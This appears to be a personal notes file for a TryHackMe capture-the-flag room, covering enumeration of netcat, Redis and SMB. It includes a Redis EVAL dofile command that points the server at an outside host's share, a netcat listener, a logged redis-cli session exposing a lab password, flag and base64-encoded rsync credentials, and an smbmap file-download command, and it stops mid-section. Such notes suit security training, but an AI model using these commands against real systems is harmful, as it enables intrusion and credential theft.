 # Enumerations


## NC

nc -nvlkp 80 // for loop 


## Redis

username alias masteruser 
password alias requirepass

cmds :

EVAL "dofile('//10.10.234.85/noraj')" 0

INFO

CONFIG GET *

```bash
┌──(arundhanush㉿kali)-[~/CTF/THM/vulnet-internal]
└─$ redis-cli -h 10.10.189.126
10.10.189.126:6379> AUTH B65Hx562F@ggAZ@F       // username is defalut so give it blank password
OK
10.10.189.126:6379> KEYS *                      // cmd to find keys
1) "marketlist"
2) "authlist"
3) "internal flag"
4) "int"
5) "mykey"
6) "tmp"
10.10.189.126:6379> GET "internal flag"         // get or/ view a keys 
"THM{ff8e518addbbddb74531a724236a8221}"
10.10.189.126:6379> lrange authlist 1 100       // to list 

1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
10.10.189.126:6379> 


```
## smbmap

sudo smbmap -R Folder -H <IP> -A <FileName> -q // search and download the particular file.

To list everything:
